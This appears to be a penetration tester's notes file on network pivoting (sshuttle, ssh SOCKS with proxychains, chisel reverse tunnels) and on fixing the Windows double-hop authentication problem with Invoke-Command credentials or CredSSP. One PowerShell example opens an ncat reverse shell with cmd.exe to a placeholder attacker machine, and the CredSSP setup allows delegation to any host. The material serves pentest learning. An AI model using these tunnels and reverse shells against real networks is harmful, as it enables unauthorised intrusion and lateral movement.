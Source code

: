 # Pivoting/Tunneling  
## SSH   
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)   
  
## Socks    
On the attacker machine (server):      
`./chisel server -p 11111 --reverse`   
  
On the pivot machine (client):   
`./chisel client 10.10.14.47:11111 R:socks`  
      
Add `socks5 127.0.0.1 1080` in `/etc/proxychains4.conf`     
Then `proxychains <command>`    
     
     
## Double hop authentication problem fix  
   
**What is the double hop problem ?**  
*(Source from ATTL4S : https://www.youtube.com/watch?v=p9QFdITuvgU)*  
  
Services that support Windows authentication carry out something called client impersonation.  
When we access a service :   
1- Credentials are verified  
2- An Access Token with the security context (SID, name, groups, etc.) of your user is created  
3- The service places a copy of that Token into a new thread  
4- That thread can act on your behalf and is subject to the restrictions imposed
by ACLs  
  
The process is detailed in the picture below:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/98-PentestAD-token_impersonation.png?raw=true)  
  
The problem is that when authenticating from an interactive authentication, credentials are (usually) stored in lsass.exe for SSO purposes.  
When authenticating from a network authentication, credentials are NOT (usually) stored in lsass.exe, so our credentials will not be cached on the target server.  
  
Interactive authentication vs network authentication:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/97-PentestAD-interactive_vs_network_authentication.png?raw=true)  
  
On the last jump, the service does not have the credentials to act as on behalf of the user :  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/99-PentestAD-double_hop.png?raw=true)   
  
**How to solve the double hop problem ?**  
*(Sources : https://notes.qazeer.io/general/pivoting)*   
This Microsoft document explains how to face the "double hop" problem :   
https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.3&viewFallbackFrom=powershell-7.1  

To solve the "double hop" authentication problem, which occurs whenever trying to access resources on a third server from the first remotely connected server, the `-Credential` argument inside the `Invoke-Command` cmdlet and the CredSSP authentication mechanism can be used. Simply put, the problem happens because credentials are not allowed for delegation and thus can't be passed whenever accessing network resources from the remotely connected system. All access ends up being unauthenticated and results in Access denied errors.  
Using `-Credential` inside `Invoke-Command`:  
```
$user = 'domain.lol\johnfromthegarden'
$pass = 'Habile!123'
$secpasslol = ConvertTo-SecureString $pass -AsPlainText -Force
$creds = New-Object system.management.automation.PSCredential $user,$secpasslol

Invoke-Command -ComputerName 192.168.110.54 -Credential $creds -ScriptBlock {c:\temp\leperche\ncat.exe <the_attacker_machine_listening> 443 -e cmd.exe}
```

If using CredSSP, supports for CredSSP must be activated and configured on the client attacking system. The configuration below allows delegation to any system.
```
winrm quickconfig
Set-Item WSMan:localhost\client\trustedhosts -value *
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"  
```
```
Start gpedit.msc
-> "Local Computer Policy" -> "Computer Configuration" -> "Administrative Templates" -> "System" -> "Credential Delegation"
-> In the "Settings" pane, "Allow Delegating Fresh Credentials with NTLM-only Server Authentication". -> "Enabled"
-> And in the "Options" area, "Show" -> "Value" = WSMAN/*
-> "Concatenate OS defaults with input above" checked
Once CredSSP is activated and correctly configured, the PowerShell cmdlets Invoke-Command and Enter-PSSession can be used with the -Authentication CredSSP option to make connections using CredSSP.
```  
  
